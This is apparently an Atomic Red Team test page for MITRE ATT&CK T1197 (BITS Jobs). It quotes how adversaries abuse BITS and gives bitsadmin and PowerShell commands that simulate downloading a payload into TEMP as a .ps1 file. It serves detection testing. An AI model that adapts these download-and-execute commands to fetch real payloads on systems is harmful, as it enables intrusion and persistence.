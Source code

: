 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1086)  (Citation: Microsoft BITS) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool. (Citation: Microsoft BITS)Admin

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048). (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)


<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
bitsadmin.exe  /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %TEMP%\bitsadmin_flag.ps1
```
<br/>
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
